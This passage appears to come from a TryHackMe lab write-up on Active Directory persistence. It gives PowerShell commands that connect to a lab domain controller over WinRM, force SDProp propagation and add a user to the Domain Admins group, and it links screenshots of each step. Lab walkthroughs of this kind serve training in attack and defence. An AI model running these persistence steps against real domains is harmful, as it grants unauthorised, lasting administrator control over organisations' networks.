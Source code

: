 	* WinRM to the domain controller as the DA
	
		```
		Enter-PSSession -ComputerName thmdc.za.tryhackme.loc
		```

		![task7-winrm](./images/task7-winrm.png)

	* Now running a PowerShell session on the domain controller and update SDProp
	
		```
		Import-Module C:\Tools\Invoke-ADSDPropagation.ps1
		Invoke-ADSDPropagation
		```

		![task7-update](./images/task7-update.png)

	* Add ourselves as a member to a protected group from PowerShell windows on THMWRK1  
	
		```
		Add-ADGroupMember -Identity "Domain Admins" -Members "alice.gibson"
		Get-ADGroupMember -Identity "Domain Admins" | Where-Object {$_.SamAccountName -eq 'alice.gibson'}
		```

		![task7-add-admin](./images/task7-add-admin.png)
